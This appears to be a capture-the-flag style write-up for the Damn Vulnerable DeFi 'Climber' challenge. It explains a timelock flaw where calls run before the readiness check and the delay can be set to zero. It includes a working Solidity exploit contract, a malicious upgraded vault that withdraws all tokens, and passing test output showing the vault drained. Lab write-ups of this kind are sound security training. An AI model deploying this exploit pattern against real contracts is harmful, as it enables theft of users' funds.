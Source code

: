 # Damn Vulnerable Defi - Climber
- Scope
    - ClimberVault.sol
    - ClimberTimelock.sol
    - ClimberTimelockBase.sol
    - ClimberConstants.sol
    - ClimberErrors.sol
- Tools
    - [Foundry](https://github.com/foundry-rs/foundry)

# Findings

## Various vulnerabilities in `execute()` and `updateDelay()` leading to drained tokens from vault

### Summary
Various vulnerabilities in `execute()` and `updateDelay()` can be chained to upgrade the implementation contract to a malicious one and drain the tokens from vault.

### Vulnerability Details
1. The `execute()` function executes the call first, before perforing the check. Hence, we can schedule a list of calls to be executed and as long the last call is ReadyToExecute, the tx won't revert.
2. `updateDelay()` function checks the input value wrongly, as long as it does not exceed the MAX_DELAY, you can change the delay, including setting it to 0.
```diff
function execute(address[] calldata targets, uint256[] calldata values, bytes[] calldata dataElements, bytes32 salt)
        external
        payable
    {
        if (targets.length <= MIN_TARGETS) {
            revert InvalidTargetsCount();
        }

        if (targets.length != values.length) {
            revert InvalidValuesCount();
        }

        if (targets.length != dataElements.length) {
            revert InvalidDataElementsCount();
        }

        bytes32 id = getOperationId(targets, values, dataElements, salt);

        for (uint8 i = 0; i < targets.length; ++i) {
-1            targets[i].functionCallWithValue(dataElements[i], values[i]);
        }

        if (getOperationState(id) != OperationState.ReadyForExecution) {
-1            revert NotReadyForExecution(id);
        }

        operations[id].executed = true;
    }
```
```diff
function updateDelay(uint64 newDelay) external {
        if (msg.sender != address(this)) {
            revert CallerNotTimelock();
        }

-2        if (newDelay > MAX_DELAY) {
            revert NewDelayAboveMax();
        }

        delay = newDelay;
    }
```

### Impact/Proof of Concept

```diff
contract Exploit {
    address payable private immutable timelock;

    uint256[] private _values = [0, 0, 0,0];
    address[] private _targets = new address[](4);
    bytes[] private _elements = new bytes[](4);

    constructor(address payable _timelock, address _vault) {
        // Setup the calls to be executed, the execute() function does not check if these have been scheduled or ReadyToExecute.
        // 1. We grant this contract the PROPOSER_ROLE
        // 2. Then we remove the delay by setting it to 0
        // 3. We transfer ownership of the vault to this contract, so that we can upgrade the implementation contract
        // 4. Lastly we schedule the calls so that the final check for ReadyToExecute will not fail and we have delay already set to 0
        timelock = _timelock;
        _targets = [_timelock, _timelock, _vault, address(this)];

        _elements[0] = (
            abi.encodeWithSignature("grantRole(bytes32,address)", keccak256("PROPOSER_ROLE"), address(this))
        );
        _elements[1] = abi.encodeWithSignature("updateDelay(uint64)", 0);
        _elements[2] = abi.encodeWithSignature("transferOwnership(address)", msg.sender);
        _elements[3] = abi.encodeWithSignature("timelockSchedule()");
    }

    function timelockExecute() external {
        ClimberTimelock(timelock).execute(_targets, _values, _elements, bytes32("123"));
    }

    function timelockSchedule() external {
        ClimberTimelock(timelock).schedule(_targets, _values, _elements, bytes32("123"));
    }
}


// Custom upgraded implementation contract that can withdraw all tokens
contract PwnedClimberVault is ClimberVault {
/// @custom:oz-upgrades-unsafe-allow constructor
    constructor() {
        _disableInitializers();
    }
    function withdrawAll(address tokenAddress, address receiver) external onlyOwner {
        // withdraw the whole token balance from the contract
        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(receiver, token.balanceOf(address(this))), "Transfer failed");
    }
}
```

Results
```diff
[PASS] test_climber() (gas: 2439835)
Logs:
  Vault beforeBalance:  10000000000000000000000000
  Vault afterBalance:  0
  Recovery afterBalance:  10000000000000000000000000

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 1.56ms (571.29µs CPU time)
```

